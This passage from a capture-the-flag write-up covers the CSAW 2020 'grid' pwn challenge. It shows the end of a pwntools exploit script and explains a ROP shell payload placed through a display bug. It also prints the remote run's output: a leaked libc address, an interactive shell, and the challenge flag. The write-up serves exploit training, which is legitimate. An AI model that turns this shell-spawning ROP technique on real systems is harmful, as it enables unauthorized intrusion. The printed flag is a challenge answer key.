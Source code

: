 ```python
p.recvuntil('Displaying\n')
p.recv(100 + 10)
p.interactive()
```

The rest is fairly straight forward.  The payload is not unlike most _get-a-shell-ROP_ pwns, however, using the `display` bug to move the payload into place vs BOF.  The base of 120 was determined from Ghidra (see above).  The loop sends the bytes to location `0 120 + i`.

> I should probably check for `d` in the payload as a _badchar_.  It does happen (thanks ASLR).  But I'm already 5 days behind on this writeup.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/csawquals2020/grid/grid'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/csawquals2020/grid/libc-database/libs/libc6_2.27-3ubuntu1.2_amd64/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.chal.csaw.io on port 5013: Done
[*] libc.address: 0x7fd671e4d000
[*] Loaded 17 cached gadgets for './grid'
[*] Switching to interactive mode
$ id
uid=1000(grid) gid=1000(grid) groups=1000(grid)
$ ls -l
total 16
-r--r----- 1 root grid    30 Sep 10 23:33 flag.txt
-r-xr-xr-x 1 root grid 10336 Sep 10 23:33 grid
$ cat flag.txt
flag{but_4ll_l4ngu4g3s_R_C:(}
```
